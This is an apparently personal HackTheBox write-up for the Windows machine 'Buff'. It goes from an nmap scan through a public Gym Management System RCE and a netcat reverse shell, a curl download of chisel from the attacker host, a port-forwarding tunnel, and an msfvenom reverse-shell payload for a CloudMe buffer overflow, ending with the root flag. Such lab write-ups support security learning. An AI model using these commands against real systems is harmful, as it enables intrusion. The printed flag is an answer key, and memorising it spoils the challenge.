 ```yaml
---
title: Buff
categories: [HackTheBox]
tags: [Port Forwording, PrivEsc, Public Exploit, Windows, chisel]
img_path: /Vulnhub-Files/img/
image:
  path: Buff/Untitled.png
  alt: Windows Easy level Machine 📂 ...

---
```



## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Buff]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_Result.txt 10.10.10.198
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-11 10:01 IST
Nmap scan report for 10.10.10.198
Host is up (0.13s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-title: mrb3n's Bro Hut
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
```

## Web Enumeration ⤵️

I checked port 80 and got a simple static page where I found its CMS →

![Untitled](Buff/Untitled%201.png)

Now I searched online and got a public exploit so lets use this exploit :

[Gym Management System 1.0 - Unauthenticated Remote Code Execution](https://www.exploit-db.com/exploits/48506)

It worked and I got a webshell →

![Untitled](Buff/Untitled%202.png)

Lets have a proper shell through callback .

I got the reverse shell through `netcat` call back →

![Untitled](Buff/Untitled%203.png)

I enumerated further for Administrator Privileges as this user does not have a required privileged to Escalate to Administrator user so →

```bash
C:\xampp\htdocs\gym\upload>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

C:\xampp\htdocs\gym\upload>
```

I got this executable file from downloads directory of `shaun` user with its version as it name →

```powershell
PS C:\Users\shaun\Downloads> dir
dir

    Directory: C:\Users\shaun\Downloads

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       16/06/2020     16:26       17830824 CloudMe_1112.exe                                                      

PS C:\Users\shaun\Downloads>
```

and also I checked the other network port connection and found out that 2 other services are accessible internally which are `cloudme` and `mysql` service.

```powershell
PS C:\Users\shaun\Downloads> netstat -q
netstat -q

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            BUFF:0                 LISTENING
  TCP    0.0.0.0:445            BUFF:0                 LISTENING
  TCP    0.0.0.0:5040           BUFF:0                 LISTENING
  TCP    0.0.0.0:7680           BUFF:0                 LISTENING
  TCP    0.0.0.0:8080           BUFF:0                 LISTENING
  TCP    0.0.0.0:49664          BUFF:0                 LISTENING
  TCP    0.0.0.0:49665          BUFF:0                 LISTENING
  TCP    0.0.0.0:49666          BUFF:0                 LISTENING
  TCP    0.0.0.0:49667          BUFF:0                 LISTENING
  TCP    0.0.0.0:49668          BUFF:0                 LISTENING
  TCP    0.0.0.0:49669          BUFF:0                 LISTENING
  TCP    10.10.10.198:139       BUFF:0                 LISTENING

  TCP    10.10.10.198:8080      10.10.16.10:59456      ESTABLISHED
  TCP    10.10.10.198:49761     10.10.16.10:microsoft-ds  ESTABLISHED
  TCP    127.0.0.1:3306         BUFF:0                 LISTENING
  TCP    127.0.0.1:8888         BUFF:0                 LISTENING
  TCP    0.0.0.0:49761          BUFF:0                 BOUND
  TCP    [::]:135               BUFF:0                 LISTENING
  TCP    [::]:445               BUFF:0                 LISTENING
  TCP    [::]:7680              BUFF:0                 LISTENING
  TCP    [::]:8080              BUFF:0                 LISTENING
  TCP    [::]:49664             BUFF:0                 LISTENING
  TCP    [::]:49665             BUFF:0                 LISTENING
  TCP    [::]:49666             BUFF:0                 LISTENING
  TCP    [::]:49667             BUFF:0                 LISTENING
  TCP    [::]:49668             BUFF:0                 LISTENING
  TCP    [::]:49669             BUFF:0                 LISTENING
  UDP    0.0.0.0:123            *:*                    
  UDP    0.0.0.0:5050           *:*                    
  UDP    0.0.0.0:5353           *:*                    
  UDP    0.0.0.0:5355           *:*                    
  UDP    0.0.0.0:63104          *:*                    
  UDP    10.10.10.198:137       *:*                    
  UDP    10.10.10.198:138       *:*                    
  UDP    10.10.10.198:1900      *:*                    
  UDP    10.10.10.198:56604     *:*                    
  UDP    127.0.0.1:1900         *:*                    
  UDP    127.0.0.1:56605        *:*                    
  UDP    127.0.0.1:59052        *:*                    
  UDP    [::]:123               *:*                    
  UDP    [::]:5353              *:*                    
  UDP    [::]:5355              *:*                    
  UDP    [::]:63104             *:*                    
  UDP    [::1]:1900             *:*                    
  UDP    [::1]:56603            *:*                    
  UDP    [fe80::3d02:50d:e22b:d235%10]:1900  *:*                    
  UDP    [fe80::3d02:50d:e22b:d235%10]:56602  *:*                    
PS C:\Users\shaun\Downloads>
```

Now I have to access this service externally so I have to do the port forwarding , therefore I used a tool called chisel that will redirect this port 8888 externally on 127.0.0.1 and I can access it through attacker machine .

I downloaded the windows chisel file and transfered it through `curl` command .

```powershell
PS C:\Users\shaun\Downloads> curl http://10.10.16.10/chisel_1.9.1_windows_amd64 -o chisel_1.9.1_windows_amd64
C:\Users\shaun\Downloads>.\chisel_1.9.1_windows_amd64 client 10.10.16.10:9000 R:8888:10.10.10.198:8888
.\chisel_1.9.1_windows_amd64 client 10.10.16.10:9000 R:8888:10.10.10.198:8888
2024/01/11 05:44:40 client: Connecting to ws://10.10.16.10:9000
2024/01/11 05:44:42 client: Connected (Latency 81.2309ms) 
```

I connected the client and server machine through port 9000 and acted attacker machine as a server machine to connect to.

```powershell
┌──(kali㉿kali)-[~/Downloads/HTB/Buff]
└─$ /opt/Tools/chisel server --port 9000 --reverse
2024/01/11 11:57:33 server: Reverse tunnelling enabled
2024/01/11 11:57:33 server: Fingerprint QI/KbQNfav2HY0UhCHivr7umoRvWOoNh+/423y4+6aM=
2024/01/11 11:57:33 server: Listening on http://0.0.0.0:9000
2024/01/11 11:57:35 server: session#1: Client version (1.9.1) differs from server version (1.7.7)
2024/01/11 11:57:35 server: session#1: tun: proxy#R:8888=>10.10.10.198:8888: Listening
```

Now I have the port running so lets check it through `NMAP` Tool.

```powershell
┌──(kali㉿kali)-[~/Downloads/HTB/Buff]
└─$ nmap -p 8888 127.0.0.1 -vv               
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-11 11:17 IST
Initiating Ping Scan at 11:17
Scanning 127.0.0.1 [2 ports]
Completed Ping Scan at 11:17, 0.00s elapsed (1 total hosts)
Initiating Connect Scan at 11:17
Scanning localhost (127.0.0.1) [1 port]
Discovered open port 8888/tcp on 127.0.0.1
Completed Connect Scan at 11:17, 0.00s elapsed (1 total ports)
Nmap scan report for localhost (127.0.0.1)
Host is up, received syn-ack (0.00041s latency).
Scanned at 2024-01-11 11:17:49 IST for 0s

PORT     STATE SERVICE        REASON
8888/tcp open  sun-answerbook syn-ack
```

Then I searched online related to `cloudme` exploit and through `searchsploit` Tool also I got the hit and I found out an exploit related to buffer overflow so lets use this exploit →

![Untitled](Buff/Untitled%204.png)

I used this exploit in this exploit I have to generate a payload so I used this command instead of given command so make it run →

```powershell
┌──(kali㉿kali)-[~/Downloads/HTB/Buff]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.10 LPORT=443 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
```

I pasted that payload into the exploit and clarified at last that `payload = buf` and ran the command .

![Untitled](Buff/Untitled%205.png)

I ran the command and started netcat listener to capture the callback →

![Untitled](Buff/Untitled%206.png)

```powershell
C:\Users\Administrator>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is A22D-49F7
C:.
+---3D Objects
+---CloudMe
+---Contacts
+---Desktop
|       Microsoft Edge.lnk
|       root.txt
|       
+---Documents
|       Tasks_real.bat
|       
+---Downloads
|       CloudMe_1112.exe
|       
+---Favorites
|   |   Bing.url
|   |   
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|       
+---Music
+---OneDrive
+---Pictures
|   +---Camera Roll
|   \---Saved Pictures
+---Saved Games
+---Searches
|       winrt--{S-1-5-21-2277156429-3381729605-2640630771-500}-.searchconnector-ms
|       
\---Videos

C:\Users\Administrator>type Desktop\root.txt
type Desktop\root.txt
6f7cdc795dc7ad289e516c9288b61fd3

C:\Users\Administrator>
```

I am Administrator Now !!